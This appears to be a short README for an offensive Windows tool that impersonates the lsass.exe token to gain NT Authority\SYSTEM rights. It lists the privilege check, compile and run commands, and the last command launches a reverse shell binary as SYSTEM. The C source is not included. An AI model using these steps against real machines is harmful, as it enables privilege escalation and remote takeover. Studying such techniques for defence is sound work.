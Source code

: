 # Impersonator

Simple C code to impersonate th lsass.exe primary token and spawn a new process as `NT Authority\SYSTEM` . The `SeImpersonate` privilege is required to impersonate another process token.

Enumerate

```
C:\Target\>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
...
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
...
```

Compile the code:

```
C:\Dev\>compile.bat
```

Run the binary:

```
C:\Target\>impersonator.exe reverse_shell.exe
```

